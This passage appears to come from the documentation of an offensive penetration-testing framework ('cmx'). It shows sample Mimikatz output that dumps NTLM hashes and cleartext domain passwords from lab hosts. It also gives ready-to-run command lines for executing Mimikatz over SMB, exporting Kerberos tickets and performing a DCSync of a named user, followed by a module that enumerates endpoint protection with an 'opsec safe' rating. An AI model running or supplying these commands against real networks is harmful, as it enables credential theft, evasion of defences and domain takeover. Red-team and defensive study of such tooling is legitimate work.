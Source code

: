 ```
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         ocean.depth\agrande:bbc2bf2fbca9dd9ed74d3c1b55e3d727
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         ocean.depth\WIN7E-PC$:2d3b04ef5f2dee295d2ba35ab55e2147
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         ocean.depth\agrande:User!23
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         [+] Added 3 credential(s) to the database
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         [*] Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_10.10.33.123_on_Sep.02.19_at_1412.log
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         [*] - - "POST / HTTP/1.1" 200 -
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         ocean.depth\agrande:bbc2bf2fbca9dd9ed74d3c1b55e3d727
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         ocean.depth\WIN7P-PC$:9cc6214e9e6a11545ce2a1a91cd393e8
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         ocean.depth\agrande:User!23
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         (null)\Administrator:AdminSuper!23
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         (null)\agrande:User!23
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         [+] Added 5 credential(s) to the database
Sep.02.19 14:12:17  MIMIKATZ    10.10.33.124         [*] Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_10.10.33.124_on_Sep.02.19_at_1412.log

```
  
*When using multiple commands, spaces are used as the delimeter.*  
To issue commands with spaces in them, nest them inside quotes:  
i.e to use `kerberos::list /export` becomes `privilege::debug "kerberos::list /export" exit`
```
~# cmx smb 10.10.33.123 -u agrande -p User\!23 -M mimikatz -mo COMMAND='privilege::debug "kerberos::list /export" exit'
```

DCSync a specific user:
```
~# cmx smb 10.10.33.123 -u Administrator -p AdminSuper\!23 -M mimikatz -mo COMMAND='privilege::debug "lsadump::dcsync /user:OCEAN\\mbellamy " exit'
```

Output will be jumbled for results other than the default, but the full, well formated results are  
saved to a log file. 


----------------------------------------------------------------------------------------------------
## enum_av          
Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI

**Options:**
None

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      |


